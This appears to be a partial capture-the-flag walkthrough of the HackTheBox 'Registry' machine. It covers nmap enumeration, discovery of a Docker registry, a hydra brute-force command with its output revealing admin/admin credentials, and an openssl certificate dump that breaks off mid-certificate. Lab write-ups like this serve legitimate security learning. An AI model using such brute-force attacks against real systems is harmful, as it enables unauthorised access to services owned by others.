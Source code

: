 ## Notes for Registry HackTheBox machine

# Enumerating the basics

Standard nmap. 

* /bolt is something
* /install contains weird "gzipped data" that is not a gzip archive

* /bolt/bolt leads to login screen
* http://10.10.10.159/bolt/bolt/login

No credentials

# Docker registry

Docker registry is there, ok. Only visible with the proper Host header which we got from the initial nmap.

HTTP GET .bash_history 403 -> is this some user's home directory ? Very strange.

# Brute force Docker Registry password
```
hydra -L words -P words -f docker.registry.htb http-get /v2/
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2020-02-06 10:33:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 196 login tries (l:14/p:14), ~13 tries per task
[DATA] attacking http-get://docker.registry.htb:80//v2/
[80][http-get] host: docker.registry.htb   login: admin   password: admin
```

Great, we can see ```bolt-image``` in there after we use these creds.

## Logging in to Docker

docker login is not successful because of self-signed certificate

```
openssl s_client -connect docker.registry.htb:443 -showcerts
CONNECTED(00000003)
depth=0 CN = docker.registry.htb
verify error:num=20:unable to get local issuer certificate
verify return:1
depth=0 CN = docker.registry.htb
verify error:num=21:unable to verify the first certificate
verify return:1
---
Certificate chain
 0 s:CN = docker.registry.htb
   i:CN = Registry
-----BEGIN CERTIFICATE-----
MIICrTCCAZUCCQDjC7Es6pyC3TANBgkqhkiG9w0BAQsFADATMREwDwYDVQQDDAhS
ZWdpc3RyeTAeFw0xOTA1MDYyMTE0MzVaFw0yOTA1MDMyMTE0MzVaMB4xHDAaBgNV
BAMME2RvY2tlci5yZWdpc3RyeS5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAw
ggEKAoIBAQDAQd6mLhCheVIu0IOf2QIXH4UZGnzIrcQgDfTelpc3E4QxH0nq+KPg
7gsPuMz/WMnmZUh3dLKLXb7hqJ2Wk8vQM6tt+PbKna/D6WKXqGM3JnSLKW1YOkIu
AuQenMOxJxh41IA0+3FqdlEdtaOV8sP+bgFB/uG2NDfPOLciJMop+d5pwpcxro8l
egZASYNM3AbZjWAotmMqHwjGwZwqqxXxn61DixNDN2GWLQHO7QPUVUjF+Npso3zN
ZLUJ1vkAtl6kFlmLTJgjlTUuE78udKD5r/NLqHNxxxObaSFXrmm2maDDoAkhobOt
ljpa/U/fCv8g03KToaXVZYb6BfFEP5FBAgMBAAEwDQYJKoZIhvcNAQELBQADggEB
AF3zSdj6GB3UYb431GRyTe32Th3QgpbXsQXA2qaLjI0n3qOF5PYnADgKsDzTxtDU
```